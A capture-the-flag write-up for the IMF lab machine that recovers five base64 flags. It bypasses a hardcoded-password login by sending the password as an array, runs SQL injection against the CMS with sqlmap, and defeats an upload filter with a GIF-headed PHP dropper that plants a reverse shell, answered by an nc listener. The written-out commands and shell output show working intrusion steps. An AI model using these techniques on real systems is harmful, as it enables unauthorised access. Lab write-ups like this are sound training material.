 ```yaml
---
layout: post
title: You're up and running!
---
```


First flag in comments of contact.php
flag1{YWxsdGhlZmlsZXM=}
Flag1 decodes to allthefiles, which points to base64 encoded file names. The trick is to merge the names.
Decoded names are the second flag
flag2{aW1mYWRtaW5pc3RyYXRvcg==}
Flag 2 decodes to imfadministrator, which points to /imfadministrator
Comment under login form claims that he couldn't get the sql working so he hardcoded the password. At first i tried some sql injection fuzzing but it obviously didn't work.
Then it struck me: the error on the page said 'Invalid username.' so it probably will tell me if guessed correctly the user without password.
Tried admin and some combinations of roger, author of the comment but no luck. Then I remembered the /contact.php page. There is email rmichaels@imf.local for Roger so I figured it's his login.
Now the page says the password is wrong, so I'm on the good track. Now to break super-safe hardcoded password all you need to do is to make pass argument as an array like this:
user=rmichaels&pass[]=
flag3{Y29udGludWVUT2Ntcw==}
Decoded flag 3 says 'continueTOcms' which frankly is pretty obvious given it's the only link we see
CMS cracked with sqlmap
flag4{dXBsb2Fkcjk0Mi5waHA=}
Flag 4 decodes to uploadr942.php
Navigating to /imfadministrator/uploadr942.php reveals simple file uploader. 
Couple minutes of fiddling with different samples of files I found out the server
allows only graphic files, filtering in addition some 'dangerous' php functions.
After uploading the file we can find the comment with strange string.
It's the file name of a file found in the /imfadministrator/uploads/ folder
after uploading the image.
After more experimenting I found out that it does allow file_put_contents function, 
so I decided to obfuscate actual payload inside a dropper utilizing this function:
cp /usr/share/webshells/php/php-reverse-shell.php reverse-shell.php
Set proper host
cat reverse-shell.php | xxd -p | tr -d [:space:] > payloadhex.txt
Wrap it in php dropper and add GIF98 header to fool filter.
Next navigate to a dropper (remember to check the name of the file in the HTML comment)
after running a dropper we can setup a listener on attackers machine:
nc -lp 1234
and after navigating to /msfadministrator/uploads/backdoor.php we ge a shell!
Linux imf 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 15:53:41 up  2:42,  0 users,  load average: 0.11, 0.12, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
Now we can navigate to /var/www/html/imfadministrator/uploads
And besides our uploaded junk we have a flag:
drwxr-xr-x 2 www-data www-data  4096 Jun  7 13:36 .
drwxr-xr-x 4 www-data www-data  4096 Oct 17  2016 ..
-rw-r--r-- 1 www-data www-data    82 Oct 12  2016 .htaccess
-rw-r--r-- 1 www-data www-data  6074 Jun  6 13:01 048cc0ba197b.gif
-rw-r--r-- 1 www-data www-data    27 Jun  2 10:53 15d75ca3b468.gif
-rw-r--r-- 1 www-data www-data 11052 Jun  7 13:36 29ab56559292.gif
-rw-r--r-- 1 www-data www-data  6061 Jun  6 10:57 4688d3be2edf.gif
-rw-r--r-- 1 www-data www-data 45944 Jun  2 10:49 66024f4e10de.jpg
-rw-r--r-- 1 www-data www-data  6089 Jun  6 10:59 825abef8c60f.gif
-rw-r--r-- 1 www-data www-data  5494 Jun  7 13:37 backdoor.php
-rw-r--r-- 1 www-data www-data 58816 Jun  1 13:09 bd580392b826.jpg
-rw-r--r-- 1 www-data www-data 58816 Jun  1 13:00 c4e76ada9220.jpg
-rw-r--r-- 1 www-data www-data    28 Oct 12  2016 flag5_abc123def.txt

flag5{YWdlbnRzZXJ2aWNlcw==}
Flag 5 decodes to agentservices
